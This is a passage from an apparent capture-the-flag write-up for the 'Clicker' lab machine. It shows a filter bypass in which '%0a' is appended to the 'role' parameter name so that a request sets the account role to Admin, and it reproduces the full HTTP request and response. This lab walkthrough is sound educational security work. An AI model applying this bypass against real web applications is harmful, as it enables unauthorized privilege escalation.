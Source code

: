 By appending `%0a` at the end of the parameter name `role`, we could trick the filter into evaluating the keyword as `role%0a`, which doesn't match the blocked term `role`. This allowed us to bypass the filter while preserving the intended behavior of our `SQL` query.

```
GET /save_game.php?clicks=1337&level=0&role%0a=Admin HTTP/1.1
Host: clicker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Referer: http://clicker.htb/play.php
Cookie: PHPSESSID=ibm8uta898vpd03dq84eg8ubtu
Upgrade-Insecure-Requests: 1

```

```
HTTP/1.1 302 Found
Date: Sat, 28 Oct 2023 06:52:43 GMT
Server: Apache/2.4.52 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: /index.php?msg=Game has been saved!
Content-Length: 0
Connection: close
Content-Type: text/html; charset=UTF-8

```

![](/assets/images/writeups/clicker/4.png)
